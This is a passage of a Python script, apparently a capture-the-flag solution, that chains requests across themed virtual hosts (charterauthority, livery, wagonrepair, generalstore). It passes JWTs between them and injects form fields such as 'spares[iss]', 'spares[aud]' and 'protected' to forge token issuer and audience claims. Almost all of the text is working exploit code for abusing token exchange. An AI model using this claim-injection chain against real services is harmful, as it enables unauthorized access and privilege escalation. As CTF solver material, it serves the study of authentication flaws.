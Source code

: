 ```python:
    headers={"Host": f"charterauthority.{HOST}"},
    params={"service": "token-exchange", "token": token},
)
token = re.findall(r'<a href="//livery.[^/]+/enter\?jwt=(.+)">', r.text)[0]


# Livery

s = requests.session()
r = s.post(
    URL + "enter",
    headers={"Host": f"livery.{HOST}"},
    params={"jwt": token},
    allow_redirects=False,
)
r = s.post(URL + "done", headers={"Host": f"livery.{HOST}"}, allow_redirects=False)
token = r.headers["Location"].split("=")[-1]
if not REMOTE:
    print("After livery")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])


r = requests.get(
    URL + "callback",
    headers={"Host": f"charterauthority.{HOST}"},
    params={"service": "livery", "token": token},
)
token = re.findall(r'<a href="//wagonrepair.[^/]+/enter\?jwt=(.+)">', r.text)[0]

# Wagon Repair

r = requests.post(
    URL + "submit",
    headers={"Host": f"wagonrepair.{HOST}"},
    data={
        "jwt": token,
        "spares[dysentery]": "",
        "spares[iss]": "charter-authority",
        "spares[aud]": "general-store",
    },
    allow_redirects=False,
)
token = r.headers["Location"].split("=")[-1]
if not REMOTE:
    print("After Wagon (2nd)")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])


# General Store

s = requests.session()
s.cookies["auth_token"] = token
r = s.post(
    URL,
    headers={
        "Host": f"generalstore.{HOST}",
    },
    data={
        "jwt": token,
        "iss": "charter-authority",
        "aud": "trailhead",
        "protected": "true",
    },
```